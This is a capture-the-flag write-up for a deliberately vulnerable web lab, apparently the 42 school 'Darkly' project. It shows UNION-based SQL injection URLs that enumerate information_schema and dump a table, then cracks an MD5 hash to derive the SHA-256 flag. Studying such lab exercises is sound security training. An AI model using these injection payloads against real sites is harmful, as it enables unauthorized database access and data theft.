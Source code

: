 For this flag, i used an sql injection from the member get by id route.

Here is the route, normaly used :/index.php?page=member&id=2Submit=Submit

With a union sql injection attack I was able to export 5 tables content.

I was able to extract the table names with this request :
http://{{host}}/index.php?page=member&id=2 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.tables&Submit=Submit

Here is a sample of the union attack, for the db vote_dbs :
http://{{host}}/index.php?page=member&id=2 UNION SELECT nb_vote, subject FROM Member_survey.vote_dbs&Submit=Submit

For this db export, try this URL :
http://192.168.0.18/index.php?page=member&id=2%20UNION%20SELECT%20title,%20comment%20FROM%20Member_images.list_images&Submit=Submit

For this flag, this is the list_images table that will contain the flag. Here is the exported table :

| id | url | title | comment |
| --- | --- | --- | --- |
| 1 | https://fr.wikipedia.org/wiki/Programme_ | Nsa | An image about the NSA ! |
| 2 | https://fr.wikipedia.org/wiki/Fichier:42 | 42 ! | There is a number.. |
| 3 | https://fr.wikipedia.org/wiki/Logo_de_Go | Google | Google it ! |
| 4 | https://en.wikipedia.org/wiki/Earth#/med | Earth | Earth! |
| 5 | borntosec.ddns.net/images.png | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |

`1928e8083cf461a51303633093573c46` decryption is `albatroz` .

`albatroz` sha256 hash is `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188` 

So we got the flag !
